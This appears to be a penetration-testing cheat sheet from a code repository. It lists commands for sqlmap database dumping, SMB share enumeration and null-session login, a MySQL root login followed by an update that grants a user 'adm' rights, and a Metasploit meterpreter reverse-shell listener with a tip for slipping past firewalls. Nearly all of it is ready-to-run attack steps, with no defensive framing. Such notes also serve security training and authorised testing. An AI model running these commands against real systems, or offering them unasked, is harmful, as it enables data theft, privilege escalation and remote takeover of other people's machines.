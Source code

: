 Once you determine that a site is vulnerable to SQLi, automate with SQL Map.

```
$ sqlmap -u <url>
$ sqlmap -u <url> -p <parameter>
$ sqlmap -u <url> --tables
$ sqlmap -u <url> -D <database name> -T <table name> --dump
```

## Windows Shares Enumeration

Check what shares are available on a host
```
$ smbclient -L //ip 
$ enum4linux -a ip_address
```

## SMB Null Attack
Try to login without a username or password:

```
$ smbclient //ip/share -N
```

## MySQL Database commands

Login to MySQL with password
```
$ mysql --user=root --port=13306 -p -h 172.16.64.81
```

```
> SHOW databases;
> SHOW tables FROM databases;
> USE database;
> SELECT * FROM table;
```

Change table entry values
```
# Add the user tracking1 to the "adm" group
> update users set adm="yes" where username="tracking1";
```

## Meterpreter reverse shell

1. Find vulnerability in target (e.g. LFI/RFI)
2. Set up a Metasploit listener
```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp # or any payload you wish
set lhost <MY IP>
set lport <PORT>  # set to a port open on the target to bypass firewall
run
```
